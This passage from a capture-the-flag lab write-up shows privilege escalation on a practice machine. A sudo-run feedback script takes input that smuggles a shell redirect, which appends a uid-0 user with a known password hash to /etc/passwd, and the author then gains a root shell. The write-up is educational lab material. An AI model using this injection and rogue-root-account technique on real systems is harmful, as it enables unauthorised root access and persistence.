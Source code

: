 Using this, we can make an addition to the `/etc/passwd` file and manually add an user with `uid` and `gid` set to `0` ( same as the `root` user ).

First, creating a password hash.

```console
$ mkpasswd -m md5crypt -s
Password: 123
$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0
```

Formatting the user information in the style of the `/etc/passwd`.

```
jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash
```

Now, writing it to the `/etc/passwd` file using the `/opt/NewComponent/feedback.sh` script.

```console
deku@myheroacademia:~$ sudo /opt/NewComponent/feedback.sh
Hello, Welcome to the Report Form
This is a way to report various problems
    Developed by
        The Technical Department of U.A.
Enter your feedback:
'jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash' >> /etc/passwd
It is This:
Feedback successfully saved.
```

> We use `'` around what we want to write due to the `$` character in the password hash.
{: .prompt-tip }

We can see we were succesful in writing to the `/etc/passwd` file.

```console
deku@myheroacademia:~$ tail -n1 /etc/passwd
jxf:$1$MgMMCplp$bx1JXnOEyOXMkHf9VnHgK0:0:0:jxf:/root:/bin/bash
```

At last, we can switch to this new user using `su` and read the `root` flag.

```console
deku@myheroacademia:~$ su - jxf
Password: 123
root@myheroacademia:~# id
uid=0(root) gid=0(root) groups=0(root)
root@myheroacademia:~# wc -c root.txt
794 root.txt
```

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

</style>
